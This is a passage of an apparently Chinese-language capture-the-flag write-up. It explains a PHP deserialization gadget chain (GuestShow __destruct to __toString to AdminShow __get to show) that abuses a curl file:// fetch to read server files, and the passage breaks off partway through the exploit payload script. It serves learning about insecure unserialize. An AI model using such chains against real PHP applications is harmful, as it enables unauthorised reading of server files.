```php
    }
    public function __get($value){
        $this->show();
        return $this->$value;
    }
    public function __set($key,$value){
        $this->$key = $value;
    }
    public function show(){
        if(preg_match('/usr|auto|log/i' , $this->source))
        {
            die("error");
        }
        $url = $this->schema . $this->source;
        $curl = curl_init();
        curl_setopt($curl, CURLOPT_URL, $url);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($curl, CURLOPT_HEADER, 1);
        $response = curl_exec($curl);
        curl_close($curl);
        $src = "data:jpg;base64,".base64_encode($response);
        echo "<img src={$src} />";

    }
    public function __wakeup()
    {
        if ($this->schema !== 'file:///var/www/html/') {
            $this->schema = 'file:///var/www/html/';
        }
        if ($this->source !== 'admin.png') {
            $this->source = 'admin.png';
        }
    }
}
```

我们的目标是通过 curl 读文件, 就需要利用到 AdminShow 中的 show 方法, 并且更改 source 字段

类中唯一调用 show 的魔术方法是 `__get`

而 `__get` 的触发条件是访问一个 private 字段或者是不存在的字段, 但这里全是 public 字段

于是我们需要找到一个能够访问 AdminShow 中不存在的字段的地方

GuestShow 中 `__destruct` 方法中的 `echo $this` 会触发 `__toString`

`__toString` 中 `$str = $this->file->name` 会进行一次赋值

这里的 `$this->file` 是在 `__construct` 的时候定义的

恰巧 AdminShow 中没有 name 字段

于是 payload 如下

```php
<?php

class AdminShow{
    public $source;
    public function __construct(){
        $this->source = "showfile.php";
    }

}

class GuestShow {
    public $file;
    public function __construct($file){
```